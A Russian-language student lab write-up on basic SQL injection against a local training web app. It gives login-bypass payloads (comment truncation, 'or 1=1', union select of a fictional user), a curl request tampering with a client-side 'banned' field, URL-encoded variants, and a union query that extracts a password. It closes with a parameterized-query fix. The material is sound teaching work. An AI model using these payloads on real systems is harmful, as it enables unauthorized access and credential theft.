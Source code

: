 # Лабораторная работа 3
Примитивные SQL инъекции.

## Исходные данные
https://github.com/SergeyMirvoda/secure-web-development-22/tree/main/lab3

## Задание 1
Предположим, что на нашем сайте подобная форма аутентификации:

>let sql = "SELECT name as result FROM users WHERE name = '" + login + "' AND pass = '" + pass + "'";

Тогда злоумышленник может войти в систему как любой пользователь, если он знает имя пользователя, используя следующий ввод:

>Имя пользователя: test'--

Либо злоумышленник может войти в систему как первый пользователь в таблице "users", введя следующие данные:

>Имя пользователя: ' or 1=1--

Злоумышленник может войти в систему в качестве выдуманного пользователя:
>Имя пользователя: ' union select 1, 'fictional_user', 'some_password', 1--

Рекомендуется использовать следующую форму аутентификации:

>let sql = {  
    text: "SELECT name as result FROM users WHERE name = $1 AND pass = $2",  
    values: [login, pass]  
    }

## Задание 2
1. Обойти клиентскую защиту с помощью ``curl``.   
> curl 'http://localhost:8080/signin'    
  --data-raw 'name=test&pass=test&banned=**true**'  
  --compressed

## Задание 3
1. Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded).  

**URL encoding (hex): использование 16-ричного представления символов.**   
%27 - символ кавычки
> Взлом первого пользователя  
**%20%27%20or%201%3D1--**  
Вход в системы с помощью выдуманного пользователя
**%27%20union%20select%201%2C%20%27fictional_user%27%2C%20%27some_password%27%2C%201--**

## Задание 4
1. Обойти защиту с помощью кодирования кавычки в альтернативный формат (Url encoded) и получить пароль из БД (примеры таких строк в ссылках или презентации к лекции).  

>123%27) or 1=1 union select (select min(pass) from users) order by 1 asc limit 1--


